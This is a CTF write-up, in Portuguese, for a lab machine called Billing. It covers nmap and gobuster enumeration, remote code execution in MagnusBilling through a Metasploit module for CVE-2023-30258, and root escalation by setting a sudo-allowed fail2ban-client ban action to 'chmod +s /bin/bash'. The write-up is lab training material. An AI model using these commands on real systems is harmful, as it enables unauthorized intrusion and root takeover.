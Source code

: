 # _**Billing CTF**_
![](bill.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p- --open -A -T4 [ip_address]
> ```
![](scan_nmap.jpg)

Um serviço SSH, um website
Temos também um banco de dados: **MariaDB 10.3.23 or earlier**  
E um software para construção de aplicações de comunicação: **Asterisk Call Manager 2.10.6**  
Vamos visitar o website primeiro  
Também, um scan com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url http://[ip_address]/mbilling -w ../seclists/Discovery/Web-Content/common.txt
> ```
![](scan_gobuster.jpg)

Temos diversos diretórios com diversas informações  
Além da página inicial termos uma página de login  
O serviço é denominado **MagnusBilling**  
Pesquisando por uma vulnerabilidade, encontramos [a seguinte neste site](https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/)  
Alterahos **LHOST** e **RHOSTS**, em seguida, executamos  

![](meterpreter.jpg)

Após conseguir uma sessão com _meterpreter_, investigamos alguns arquivos como _.ssh_ e _.bash_history_, mas sem sucesso  
Tentamos também buscar por informações sensíveis nos arquivos encontrados em _/var/www/html_, mas nada  
Executando ```shell``` em nossa sessão _meterpreter_ para conseguir informações melhores  
Primeiro, vamos tentar ```sudo -l```  

![](sudo_l.jpg)

Verificando as permissões de arquivo e seu conteúdo  
Foi possível constatar que é possível ler e executar o arquivo, mas não escrever  
Outra informação interessante encontrada é:  

![](status_server.jpg)

As _jails_ são basicamente configurações que definem quais logs monitorar, os padrões a serem procurados e as ações a serem tomadas quando um padrão é correspondido  
Para usar o fail2ban para executar comandos como root, podemos modificar uma das ações definidas para a _jail_, como a ação a ser executada (comando a ser executado) ao banir um IP  
Primeiro, recuperamos as ações definidas atualmente para uma das _jails_ ativas com:
> ```bash
> sudo /usr/bin/fail2ban-client get asterisk-iptables actions
> ```
![](actions.jpg)

Em seguida, modificamos o comando para o actionban na ação **iptables-allports-ASTERISK**, que é executado ao banir um IP para o **asterisk-iptables jail**  
> ```bash
> sudo /usr/bin/fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
> ```
Por fim, vamos digitar o comando abaixo
> ```bash
> sudo /usr/bin/fail2ban-client set asterisk-iptables banip [random_ip]
> ```
E com ```/bin/bash -p``` temos _root_

![](getting_root.jpg)

Agora, ir atrás das flags!

